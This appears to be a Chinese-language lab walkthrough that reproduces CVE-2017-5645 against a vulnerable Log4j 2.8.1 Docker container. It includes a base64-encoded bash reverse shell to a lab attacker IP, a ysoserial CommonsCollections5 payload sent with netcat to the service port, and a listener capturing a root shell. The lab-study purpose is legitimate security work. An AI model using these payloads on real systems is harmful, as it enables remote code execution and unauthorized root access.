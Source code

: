 # CVE-2017-5645

### 环境搭建：

下载地址：

{% embed url="https://github.com/Medicean/VulApps" %}

下载好以后，cd到对应的目录下面执行以下命令

{% code lineNumbers="true" %}
```
root@debian:~/vulhub/log4j/CVE-2017-5645# docker-compose up -d
root@debian:~/vulhub/log4j/CVE-2017-5645# docker ps -a
CONTAINER ID   IMAGE                COMMAND                  CREATED          STATUS          PORTS                                       NAMES
ac946c5599c8   vulhub/log4j:2.8.1   "java -jar /log4jrce…"   4 minutes ago    Up 4 minutes    0.0.0.0:4712->4712/tcp, :::4712->4712/tcp   cve-2017-5645_log4j_1

```
{% endcode %}

可以看到服务已经运行起来了，对应的端口是

然后下载ysoserial

{% embed url="https://github.com/frohoff/ysoserial/releases/tag/v0.0.6" %}

生产反弹shell的payload，然后将其base64编码

```
bash -i >& /dev/tcp/192.168.254.129/9992 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1NC4xMjkvOTk5MiAwPiYx
```

在终端中使用该工具，将上面的base64反弹shell的payload放入到下面执行的命令中

```
┌──(root㉿kali)-[~/Desktop/test/jdk1.8.0_202/bin]
└─# ./java -jar ../../ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1NC4xMjkvOTk5MiAwPiYx}|{base64,-d}|{bash,-i}" | nc 192.168.254.130 4712
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

在本机开启一个监听，可以看到返回了一个shell

```
┌──(root㉿kali)-[~/Desktop/test/jdk1.8.0_202/bin]
└─# nc -lnvp 9992
listening on [any] 9992 ...
connect to [192.168.254.129] from (UNKNOWN) [192.168.254.130] 45468
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@ac946c5599c8:/# whoami
whoami
root
```

